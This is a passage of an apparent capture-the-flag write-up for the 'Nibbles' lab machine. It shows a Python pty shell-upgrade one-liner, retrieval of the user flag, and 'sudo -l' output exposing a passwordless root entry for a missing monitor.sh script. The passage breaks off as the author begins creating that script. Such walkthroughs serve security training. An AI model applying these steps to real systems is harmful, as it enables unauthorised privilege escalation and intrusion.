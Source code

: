 I tried to upgrade to a better shell using `python3`:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell and through this i could get the `user` flag

```
$ pwd
/
$ cd ..
$ cd home
$ ls
nibbler
$ cd nibbler
$ ls
personal
personal.zip
user.txt
$ cat user.txt
[REDACTED]
```


## Privilege Escalation

Now, we need to escalate privileges and to find out what privileges i had, I used the `sudo -l` commnad

```
nibbler@Nibbles:/$ sudo -l                                                                                                                                                   
Matching Defaults entries for nibbler on Nibbles:                                                                                                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                       
                                                                                                                                                            
User nibbler may run the following commands on Nibbles:                                                                                                     
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh 
```

I could run the script `monitor.sh` in the above specified directory as a `root` without having to enter a `root` password.

First, I tried to look at the contents of the script

```
$ cat home/nibbler/personal/stuff/monitor.sh  
cat: home/nibbler/personal/stuff/monitor.sh: No such file or directory   
```
 It doesn't exist, so I gues I had to create one.
 
 ```
mkdir -p home/nibbler/personal/stuff
cd /home/nibbler/personal/stuff
vi monitor.sh
```
